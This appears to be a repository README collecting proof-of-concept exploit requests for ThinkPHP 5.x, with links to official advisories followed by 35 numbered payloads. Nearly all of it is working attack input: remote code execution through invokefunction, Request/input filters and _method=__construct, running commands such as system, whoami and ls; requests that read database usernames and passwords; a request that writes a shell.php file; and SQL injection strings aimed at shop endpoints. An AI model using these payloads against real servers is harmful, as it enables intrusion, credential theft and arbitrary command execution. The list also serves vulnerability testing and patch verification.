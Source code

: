 # thinkphp-RCE-POC
官方公告:

```

1、https://blog.thinkphp.cn/869075</br>

2、https://blog.thinkphp.cn/910675</br>

```

POC:

# thinkphp 5.0.22
```
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username</br>

2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password</br>

3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>

4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
```
# thinkphp 5</br>
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1</br>
'''
# thinkphp 5.0.21</br>
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>

7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>

'''
# thinkphp 5.1.*</br>
```
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1</br>

9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd</br>

10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E</br>

11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E</br>

12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>

13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>

14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>

15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
```

# 未知版本</br>

```

16、?s=index/\think\module/action/param1/${@phpinfo()}</br>

17、?s=index/\think\Module/Action/Param/${@phpinfo()}</br>

18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}</br>

19、index.php?s=/home/article/view_recent/name/1' </br>
header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"</br>

20、index.php?s=/home/shopcart/getPricetotal/tag/1%27</br>

21、index.php?s=/home/shopcart/getpriceNum/id/1%27</br>

22、index.php?s=/home/user/cut/id/1%27</br>

23、index.php?s=/home/service/index/id/1%27</br>

24、index.php?s=/home/pay/chongzhi/orderid/1%27</br>

25、index.php?s=/home/pay/index/orderid/1%27</br>

26、index.php?s=/home/order/complete/id/1%27</br>

27、index.php?s=/home/order/complete/id/1%27</br>

28、index.php?s=/home/order/detail/id/1%27</br>

29、index.php?s=/home/order/cancel/id/1%27</br>

30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+</br>

31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1</br>
    Content-Disposition: form-data; name="couponid"</br>
1') union select sleep('''+str(sleep_time)+''')#</br>

```

# thinkphp 5.0.23（完整版）debug模式</br>

```

32、(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx</br>

```

# thinkphp 5.0.23(完整版)</br>

```

33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al</rb>

```

# thinkphp 5.0.10（完整版）</br>

```

34、(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system</rb>

```

# thinkphp 5.1.* 和 5.2.* 和 5.0.*</br>

```

35、(post)public/index.php (data)c=exec&f=calc.exe&_method=filter

```
